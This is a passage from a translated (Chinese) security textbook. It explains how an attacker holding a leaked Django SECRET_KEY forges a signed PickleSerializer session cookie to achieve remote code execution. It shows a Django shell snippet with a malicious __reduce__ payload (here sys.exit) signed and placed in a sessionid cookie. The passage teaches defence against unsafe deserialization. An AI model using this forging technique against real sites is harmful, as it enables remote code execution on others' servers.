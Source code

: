 假设 vulnerable.alice.com 用 `PickleSerializer` 序列化基于 cookie 的会话。心怀不满的 vulnerable.alice.com 前雇员马洛里还记得 `SECRET _KEY` 。她对 vulnerable.alice.com 进行了一次攻击，计划如下:

1.  写恶意代码

2.  用 HMAC 函数和 `SECRET_KEY` 对恶意代码进行哈希运算

3.  将恶意代码和哈希值作为会话 cookie 发送给 vulnerable.alice.com

4.  坐下来看 vulnerable.alice.com 执行马洛里的恶意代码

首先，Mallory 编写恶意 Python 代码。她的目标是骗 vulnerable.alice.com 执行这段代码。她安装 Django，创建 `PickleSerializer` ，将恶意代码序列化为二进制格式。

接下来，Mallory 对序列化的恶意代码进行哈希处理。她使用 HMAC 函数和 `SECRET_KEY` ，以与服务器哈希会话状态相同的方式实现这一点。Mallory 现在有了恶意代码的有效哈希值。

最后，Mallory 将序列化的恶意代码与哈希值配对，将它们伪装成基于 cookie 的会话状态。她将有效载荷作为请求报头中的会话 cookie 发送给 vulnerable.alice.com。不幸的是，服务器成功地验证了 cookie 毕竟，恶意代码是用服务器使用的同一 `SECRET_KEY` 哈希的。认证 cookie 后，服务器用 `PickleSerializer` 反序列化会话状态，无意间执行了恶意脚本。马洛里已经成功实施了一次*远程代码执行攻击*。图 7.3 说明了马洛里的攻击。

![CH07_F03_Byrne](img/CH07_F03_Byrne.png)

图 7.3 Mallory 使用一个受损的 SECRET_KEY 来执行远程代码执行攻击。

下面的例子展示了 Mallory 如何从一个交互式 Django shell 中执行远程代码执行攻击。在这次攻击中，马洛里通过调用 `sys.exit` 函数，诱骗 vulnerable.alice.com 杀死自己。马洛里在一个方法中调用了 `sys.exit` ， `PickleSerializer` 在反序列化她的代码时会调用这个方法。Mallory 使用 Django 的 `signing` 模块对恶意代码进行序列化和哈希处理，就像一个基于 cookie 的会话引擎。最后，她使用 `requests` 包发送请求。对请求没有响应；收件人(粗体)就这么死了:

```py
$ python manage.py shell
>>> import sys
>>> from django.contrib.sessions.serializers import PickleSerializer
>>> from django.core import signing
>>> import requests
>>> 
>>> class MaliciousCode:
...     def __reduce__(self):                                              ❶
...         return sys.exit, ()                                            ❷
... 
>>> session_state = {'malicious_code': MaliciousCode(), }
>>> sessionid = signing.dumps(                                             ❸
...     session_state,                                                     ❸
...     salt='django.contrib.sessions.backends.signed_cookies',            ❸
...     serializer=PickleSerializer)                                       ❸
>>> 
>>> session = requests.Session()
>>> session.cookies['sessionid'] = sessionid
```